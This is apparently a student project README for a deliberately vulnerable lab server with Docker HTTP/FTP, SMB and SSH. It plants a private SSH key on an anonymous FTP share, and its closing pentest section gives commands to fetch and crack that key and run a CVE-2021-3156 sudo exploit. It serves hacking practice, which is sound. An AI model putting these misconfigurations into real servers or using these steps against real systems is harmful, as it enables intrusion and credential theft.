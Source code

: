 # IC1_projekt
Requirments:
* Docker
* Docker-compose

Install packages
---------------
```
$ chmod +x installPackages.sh
# ./installPackages.sh
```
The script contains the necessary packages for the functionality of the OS.

HTTP server configuration (html files)
---------------
You have to chose which files to use before the server is ran (before you use docker-compose).

Docker (HTTP server)
---------------
```
# docker-compose up -d
```
Docker-compose creates both an ftp and http servers.

FTP server installation
---------------
```
$ chmod +x ftp-server/setupFTP
# ftp-server/setupFTP
```
The main FTP directory is in /home and ownership of the folder is "none", therefore Anonymous user has access to all user data.

SMB server installation
---------------
```
$ chmod +x smb-server/setupSMB
# smb-server/setupSMB
```
The commands above only install the server and shared folders. You still have to add users using the commands below.
```
# smbpasswd -a <username>
```

Set up new user
---------------
### Create new user
- `sudo adduser <username>`... user friendly setting
- OR,
- `sudo useradd -m <username>`... create a new user <username>, `-m` create home directory `/home/<username>/`
- `sudo passwd <username>`... sets a password for the user `<username>`, 

### Generating SSH keys
`ssh-keygen -t rsa -b 2048` 
- `mkdir /home/<username>/.ssh/authorized_keys`
- `cp /home/<username>/.ssh/id_rsa.pub /home/<username>/.ssh/authorized_keys`
- Private key to FTP
  - `mv /home/<username>/.ssh/id_rsa /home/<username>`
  - `chmod +rw /home/<username>/id_rsa`
  - `sudo mv /home/<username>/id_rsa /var/ftp/.ssh/`

### Set /etc/ssh/sshd_config
- `sudo nano /etc/ssh/sshd_config`
  - add `AuthorizedKeysFile %h/.ssh/authorized_keys/id_rsa.pub`
  - No password authentication for user `<username>`:
    - `Match User <username>`
    - `PasswordAuthentication no`    
  - `service ssh restart`

### flags.txt
- `sudo bash -c 'echo "https://www.youtube.com/watch?v=5T5BY1j2MkE" > /home/xpepik/flags.txt'`
- `sudo chmod 600 /home/xpepik/flags.txt`

Instruction for PENTESTING
----------
## GET ssh id_rsa from FTP
```
ftp <IP_target>
username: anonymous
password: anonymous
cd .ssh/
get id_rsa
exit
chmod 600 id_rsa
```

## "Crack" ssh key with John The Ripper
```
$ locate ssh2john.py
$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash 
$ locate rockyou.txt.gz
$ gunzip rockyou.txt.gz
$ john id_rsa.hash -wordlist= rockyou.txt
```

## CVE-2021-3156
- directory contains `hac.c`, `lib.c`, `Makefile`, `README.md`
```
$ cd /home/<username>/CVE-2021-3156/
$ make
$ ./sudo-hax-me-a-sandwich 0
```
